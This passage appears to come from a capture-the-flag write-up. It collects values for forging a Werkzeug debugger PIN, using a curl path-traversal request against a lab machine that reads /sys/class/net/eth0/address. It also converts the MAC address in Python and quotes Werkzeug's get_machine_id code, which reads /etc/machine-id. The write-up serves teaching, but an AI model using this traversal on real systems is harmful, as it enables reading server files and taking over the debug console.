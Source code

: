 

I need `--ignore-content-length` because the content length on some of
these files is off, and it can lead to missing information, as shown in
[this quick video](https://www.youtube.com/watch?v=Cife4ejJGlo):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=Cife4ejJGlo){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The MAC will also be in `/sys/class/net/[device id]/address`. If I don't
know the device id, I can take some guesses and it comes back from
`eth0`:



    oxdf@hacky$ curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//sys/class/net/eth0/address
    02:42:ac:11:00:08



I'll convert that to a base-10 int in Python by adding `0x` to the front
and removing the `:`:



    oxdf@hacky$ python -c "print(0x0242ac110008)"
    2485377892360



Finally, I need the result of `get_machine_id`. The blogs describe this
as:

> read the value in `/etc/machine-id` or
> `/proc/sys/kernel/random/boot_id` and return directly if there is,
> sometimes it might be required to append a piece of information within
> `/proc/self/cgroup` that you find at the end of the first line (after
> the third slash)

I find the actual code more clear:



    def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
        global _machine_id

        if _machine_id is not None:
            return _machine_id

        def _generate() -> t.Optional[t.Union[str, bytes]]:
            linux = b""

            # machine-id is stable across boots, boot_id is not.
            for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
                try:
                    with open(filename, "rb") as f:
                        value = f.readline().strip()
                except OSError:
                    continue
